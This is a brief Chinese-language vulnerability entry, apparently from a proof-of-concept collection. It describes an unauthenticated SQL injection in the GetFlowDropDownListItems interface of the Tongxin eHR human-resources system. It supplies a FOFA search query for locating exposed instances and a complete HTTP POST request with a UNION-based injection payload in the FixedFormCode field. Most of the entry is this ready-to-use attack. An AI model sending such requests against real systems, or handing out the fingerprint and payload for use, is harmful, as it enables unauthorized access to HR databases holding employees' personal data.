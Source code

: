 # 同鑫eHR人力资源管理系统GetFlowDropDownListItems存在SQL注入漏洞

同鑫eHR人力资源管理系统 GetFlowDropDownListItems 接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息。

## fofa

```javascript
body="/TX.CDN"
```

## poc

```javascript
POST /Common/GetFlowDropDownListItems HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Content-Type: application/x-www-form-urlencoded; charset=utf-8

FixedFormCode=1%27%20UNION%20ALL%20SELECT%20NULL%2C@@VERSION--
```

